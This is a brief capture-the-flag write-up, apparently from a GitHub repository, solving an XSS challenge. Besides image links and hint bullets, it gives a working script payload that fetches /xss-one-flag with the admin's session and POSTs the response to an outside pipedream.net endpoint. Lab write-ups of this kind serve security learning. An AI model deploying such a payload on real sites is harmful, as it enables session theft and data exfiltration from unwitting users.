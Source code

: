 ![image](https://github.com/nhattanhh/CTF/assets/130430279/553c28c9-68f2-4816-9720-eeda5d65da22)

This chall give 3 hints:

![image](https://github.com/nhattanhh/CTF/assets/130430279/d71ae524-6be0-4ebb-bf97-54c0436abb78)

- Our mission to request use 'Get' method to /xss-one-flag and catch Admin's session in respond

- So use this payload to catch respond with pipedream:

<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', '/xss-one-flag', true);
    xhr.onload = function() {
        if (xhr.status === 200) {
            var flag = xhr.responseText;
            var sendXhr = new XMLHttpRequest();
            sendXhr.open('POST', 'https://eozoer2j1a4mcc2.m.pipedream.net', true);
            sendXhr.setRequestHeader('Content-Type', 'text/plain');
            sendXhr.send(flag);
        }
    };
    xhr.send();
</script>

![image](https://github.com/nhattanhh/CTF/assets/130430279/aae2bfed-f35f-41f9-8465-853663873718)

